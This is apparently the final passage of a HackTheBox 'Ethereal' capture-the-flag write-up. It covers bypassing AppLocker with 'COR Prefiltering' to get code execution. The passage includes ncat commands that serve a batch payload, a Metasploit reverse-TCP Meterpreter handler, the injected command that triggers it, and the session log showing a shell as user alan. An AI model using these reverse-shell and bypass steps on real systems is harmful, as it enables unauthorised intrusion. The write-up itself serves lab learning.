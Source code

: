```

root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 73 < bery.bat
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::73
Ncat: Listening on 0.0.0.0:73
Ncat: Connection from 10.10.10.106.
Ncat: Connection from 10.10.10.106:49715.

```

### Execute

Just as in my test, I’ll start a handler for this incoming callback:

```

msf5 > handler -H tun0 -P 136 -p windows/x64/meterpreter/reverse_tcp
[*] Payload handler running as background job 4.

[*] Started reverse TCP handler on 10.10.14.14:136

```

I’ll run the following to kick off the execution:

```

ethereal> quiet cmd /c cmd < \users\public\desktop\shortcuts\bery.bat

```

And get a callback:

```

msf5 > [*] Sending stage (206403 bytes) to 10.10.10.106
[*] Meterpreter session 5 opened (10.10.14.14:136 -> 10.10.10.106:49716) at 2019-03-13 07:05:23 -0400
msf5 > sessions -i 5
[*] Starting interaction with 5...

meterpreter > getuid 
Server username: ETHEREAL\alan

```

I had to play a bit with how to get the bat file to kick off. It didn’t work when issued without the `quiet` command. I also needed the `cmd /c cmd <` to get it to run. Sometimes when your RCE is a weird injection, you have to try a few things to get something to run.

## Conclusion

COR Prefiltering is an interesting method to bypass Applocker and get arbitrary code execution on a locked down system. In Ethereal, I could use this new shell to skip the rest of the box and go to System with JuicyPotato. Or I could go the normal path and just have easy uploads and not have to worry about killing shells and relaunching listeners in time to catch user action.

[« Shell Development](/2019/03/09/htb-ethereal-shell.html)